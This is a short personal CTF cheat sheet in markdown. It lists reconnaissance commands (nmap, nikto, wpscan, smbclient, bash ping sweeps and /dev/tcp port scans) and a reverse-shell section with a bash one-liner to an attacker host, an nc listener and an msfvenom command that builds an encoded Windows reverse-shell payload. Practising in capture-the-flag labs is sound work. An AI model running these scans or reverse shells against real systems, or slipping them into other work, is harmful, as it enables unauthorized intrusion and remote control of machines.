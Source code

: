 # My Cheat sheet for CTF

I'm not an expert. There is a lot of cheat sheet available online.

This is my notes for CTF. I want to keep it simple and easy to get basic need.

Feel free to use it.

# Reconnaissance

`nmap -p- -sV IP`

`sudo nmap -p- -sSU IP`

`sh  ~/tools/Enum/nmapAutomator.sh --host <IP> -t all`

searchsploit

Google request: `service version exploit github`

`nikto -h http://URL`

```
wpscan --url https://<RHOST> --enumerate u,t,p
wpscan --url https://<RHOST> --plugins-detection aggressive
wpscan --url https://<RHOST> --disable-tls-checks
```

`curl -v http://`

ftp: anonymous connection

`ftp <IP>`

`smbclient -L //<RHOST>/ -N`

Ping sweep with bash:
```
#Host scan:
for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done

#Port scan:
for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done
```

# Reverse shell

https://www.revshells.com/

`bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1`


`rlwrap nc -nvlp 6666`

`msfvenom -p windows/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai`
